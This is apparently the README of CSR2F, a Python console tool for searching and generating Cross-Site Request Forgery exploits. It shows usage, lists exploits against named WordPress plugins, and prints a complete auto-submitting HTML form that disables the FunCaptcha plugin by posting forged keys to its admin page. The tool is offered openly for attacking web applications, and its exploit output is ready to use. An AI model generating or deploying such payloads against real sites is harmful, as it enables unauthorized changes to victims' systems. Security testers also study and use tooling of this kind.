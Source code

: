 CSR2F
=====

CSR2F (Cross-Site Request Forgery Framework) is an open source tool written in Python and used for generating CSRF (Cross-Site Request Forgery) exploits.
It allows you to search an exploit for a specific case (for example a vulnerable WordPress plugin), then to configure and generate the HTML code.


Prerequisites
----

* CSR2F uses [Python 3](http://www.python.org/download/) to run.


Installation
----

You can download the latest tarball by clicking [here](https://github.com/ncrocfer/csr2f/tarball/master) or latest zipball by clicking [here](https://github.com/ncrocfer/csr2f/zipball/master).

Preferably, you can download CSR2F by cloning the [Git](https://github.com/ncrocfer/csr2f) repository:

    git clone https://github.com/ncrocfer/csr2f.git


Usage
----

You must execute the `csr2f.py` file to start CSR2F and obtain a prompt:

    shatter@shatter:~/csr2f$ python3 csr2f.py

    *********************************************************
    *                                                       *
    *     ______   ______   _______      _____   ________   *
    *   .' ___  |.' ____ \ |_   __ \    / ___ `.|_   __  |  *
    *  / .'   \_|| (___ \_|  | |__) |  |_/___) |  | |_ \_|  *
    *  | |        _.____`.   |  __ /    .'____.'  |  _|     *
    *  \ `.___.'\| \____) | _| |  \ \_ / /_____  _| |_      *
    *   `.____ .' \______.'|____| |___||_______||_____|     *
    *                                                       *
    *         Cross Site Request Forgery Framework          *
    *                                                       *
    * Version  : 0.1b                                       *
    * Author   : Nicolas Crocfer                            *
    * Website  : http://csr2f.github.com                    *
    * Licence  : GPLv3                                      *
    *                                                       *
    *********************************************************

    [+] 207 exploits loaded

    csr2f> 


**help**

This command describes the other commands and shows their usage.

    csr2f> help

    Commands	Description
    ========	===========

    config  	Display the configuration options
    clear   	Clear the current screen
    search  	Search an exploit based on keyword
    show    	Display informations about an exploit based on its ID
    set     	Set special fields for an exploit
    generate	Generate the exploit to the console or in a file
    ...			...

    csr2f> help config

    This command is used to view and modify the basic configuration. You
    can view it by typing 'config' without argument.

    Usage:	config <item> <value>
    Ex:	config host_url http://www.example.com

    csr2f>


**config**

This command is used to view and modify the basic configuration.

    csr2f> config

        Config			Value
        ======			=====
    
        host_url		http://www.example.com
        redirect		False
        html_skeleton	True
        html_title		CSR2F : Cross Site Request Forgery Framework
        redirect_url	http://www.example.com

    csr2f> config redirect True
    [+] The value has been modified
    csr2f>


**search**

You can search an exploit based on keywords by using the `search` command.

    csr2f> search wordpress plugin

    ID      Method     Name                           Description
    ==      ======     ====                           ===========
  
    112     POST       Wordpress FunCaptcha plug...   A CSRF vulnerability allows to disable...
    134     POST       Wordpress Mathjax Latex P...   There is no CSRF protection on the mat...
    175     POST       WordPress SolveMedia 1.1.0     SolveMedia is a capatcha service that ...
    ...     ...        ...                            ...

    csr2f>


**show**

This command is used to show the informations about an exploit (author, description, configuration...). 

    csr2f> show 112

    Informations
    ============

        Name : Wordpress FunCaptcha plugin 0.3.2
        ----
    
        Description
        -----------
        A CSRF vulnerability allows to disable the plugin by submitting an invalid private or public key.
    
        Author : Nicolas Crocfer (http://www.shatter.fr)
        ------
    
        Method & Path : (POST) /wp-admin/plugins.php?page=funcaptcha/wp_funcaptcha.php
        -------------

    Configuration
    =============

    	funcaptcha[public_key] => foo
    	----------------------
    	Value of the new public key

    	funcaptcha[private_key] => bar
        -----------------------
        Value of the new private key

    csr2f>


**set**

Each exploit can contain special fields that you can edit (for example a username, a password, an email adress...). This command is used to	change these values.

    csr2f> set 112 funcaptcha[public_key] 1234
    [+] The value has been modified
    csr2f>

**generate**

This command is used to generate the HTML exploit. You can display it on the screen by typing `generate <id>` without other argument. You can also pass a filename to create a new file.

    csr2f> generate 112

    <!DOCTYPE html>
    <html>
      <head>
          <meta charset="utf-8"/>
          <title>
              CSR2F : Cross Site Request Forgery Framework
          </title>
      </head>
      <body>
        <form action="http://www.example.com/wp-admin/plugins.php?page=funcaptcha/wp_funcaptcha.php" id="csr2f" method="post">
          <input name="funcaptcha[public_key]" type="hidden" value="foo"/>
          <input name="funcaptcha[private_key]" type="hidden" value="bar"/>
          <input name="funcaptcha[action]" type="hidden" value="settings"/>
          <input name="funcaptcha[type]" type="hidden" value="Settings"/>
        </form>
        <script type="text/javascript">
          document.getElementById("csr2f").submit();
        </script>
      </body>
    </html>

    csrf2> generate 112 index.html
    [+] The file was created in 'output' folder
    csrf2>


**Other commands**

* `clear` : Clear the user screen
* `update` : Update the exploits list (this feature is not yet present in the beta version)
* `exit` : Exit the console


Creating a new exploit
----

For the time being, CSR2F does not include a lot of exploits. I am currently incorporating the ones already online on [exploit-db.com](http://www.exploit-db.com/search/?action=search&filter_description=csrf).

But the goal of this framework is to be the reference for CSRF vulnerabilities : so I encourage you to integrate your exploit to this tool when you discover a new vulnerability, and thereby increase the list with your contributions.

CSR2F uses a simple template for integrating new exploits. Each exploit is located in the `exploits` folder. For the moment this tool is still in Beta version, so I am waiting the return of beta testers to see if I need to add or modify the template system and then update this documentation. Anyway you can view the existing templates and tell me what do you think about.


Oh, one last thing
----

I'm a French developer, my English is not perfect and I thank you in advance to tell me my mistakes :)